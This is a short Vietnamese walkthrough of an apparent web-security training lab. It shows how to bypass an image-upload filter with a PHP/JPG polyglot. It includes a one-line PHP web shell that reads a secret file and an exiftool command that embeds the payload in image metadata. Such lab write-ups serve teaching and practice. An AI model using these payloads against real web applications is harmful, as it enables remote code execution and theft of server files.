

## Remote code execution via polyglot web shell upload

1. Sau khi đăng nhập, upload thử file ``payload.php`` có nội dung
- ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

2. Nhận thấy máy chủ đã chặn thành công các tệp tải lên không phải là hình ảnh ngay cả khi sử dụng những kỹ thuật đã sử dụng ở những bài trước.

3. Tạo một tệp polyglot PHP/JPG có chứa payload PHP trong nó. 
- ```exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" payload.png -o polyglot.php```

4. Upload thành công ``polyglot.php`` file -> Truy cập vào path ``/files/avatars/polyglot.php`` nhận được mã nhị phân hình ảnh. Tìm điểm vị trí ``START`` và ``END`` để xác định secret key của Carlos.

